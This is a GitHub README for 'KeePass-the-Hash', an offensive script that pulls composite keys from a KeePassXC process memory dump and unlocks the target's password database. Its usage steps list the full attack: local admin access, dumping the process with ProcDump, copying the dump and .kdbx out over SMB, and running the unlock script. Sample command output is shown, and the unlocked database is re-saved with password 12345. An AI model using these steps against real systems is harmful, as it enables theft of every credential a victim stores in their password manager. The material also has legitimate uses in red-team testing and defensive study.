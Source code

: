 # KeePass-the-Hash
A script that greps composite key-like strings from a KeePassXC process dump, then uses a customized version of [pykeepass](https://pypi.org/project/pykeepass/) library to unlock the database.

## Installation

```
git clone https://github.com/d3lb3/KeePass-the-Hash
python3 -m pip install -r requirements.txt
```

## Usage

1. Gain access to the target machine running KeePassXC as local administrator.

2. Perform a process dump from the running KeePassXC process (I typically go with [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) + [ProcDump](https://learn.microsoft.com/en-us/sysinternals/downloads/procdump))

   ```
   PS C:\Windows\Temp> Get-Process keepassxc                                                                                                                                                                                                       
   Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
   -------  ------    -----      -----     ------     --  -- -----------
       358      33    36508       1396       3.22    988   1   KeePassXC                                                   
       
   PS C:\Windows\Temp> .\procdump.exe -accepteula -ma 988 keepassxc.dmp
   
   ProcDump v11.0 - Sysinternals process dump utility
   Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
   Sysinternals - www.sysinternals.com                                                                                                                                                                                                             [05:14:08] Dump 1 initiated: C:\Windows\Temp\keepassxc.dmp                                                              [05:14:09] Dump 1 writing: Estimated dump file size is 203 MB.                                                          [05:14:11] Dump 1 complete: 203 MB written in 2.2 seconds                                                               [05:14:11] Dump count reached.                                                                                          
   ```

3. Retrieve the process dump as well as the .KDBX containing the encrypted database (e.g. through SMB)

4. Run the script as follows:

   ```
   python3 pass_the_key.py <dump_file> <database_file>
   [+] Searching for a composite key in the memory dump... 
   [+] 28 candidates found, passing them to the database
   [+] Found a valid composite key !
   [+] Saved database as 'Passwords_unlocked.kdbx' with password 12345
   ```

5. You should now hopefully get a new .KDBX with password set to `12345` 
